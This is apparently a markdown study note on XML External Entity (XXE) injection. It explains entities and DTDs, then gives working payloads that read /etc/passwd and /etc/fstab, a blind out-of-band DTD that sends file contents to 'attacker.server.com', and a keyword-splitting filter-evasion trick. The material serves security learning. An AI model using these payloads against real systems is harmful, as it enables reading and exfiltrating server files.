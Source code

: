 External XML Entities
=====================

## Overview

### XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

#### XML Structure && Syntax

```xml
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitive
+ "",'',<,> are illegal characters in XML due to the parser not knowing how to handel them

### Entities && The DTD

Entities operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


#### Document Type Definition (DTD)

```xml
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

##### General Entities

```xml
<!ENTITY generalEntity "arbitrary">

<Usage>&generalEntity;</Usage>
```

##### Parameter Entities

```xml
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

##### Predefined

```xml
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

## XXE Types

### Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

### Error Based

+ No output
+ A kind of blind XXE injection

### Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


## Attacks && Payloads

### Read System Files

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword retrieves arbitrary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achieve arbitrary read 

#### Include Entities Remotely

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

### External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```xml
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

### Blind XXE Payloads Using External DTDs

#### External DTD (external_payload.dtd)

```xml
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

#### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

### Filter Evasion

#### External DTD 

```xml
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```

#### Main XML

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %combined;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

### Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntactic characters like `<,>` a work around must be implemented in order to read these files


#### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired
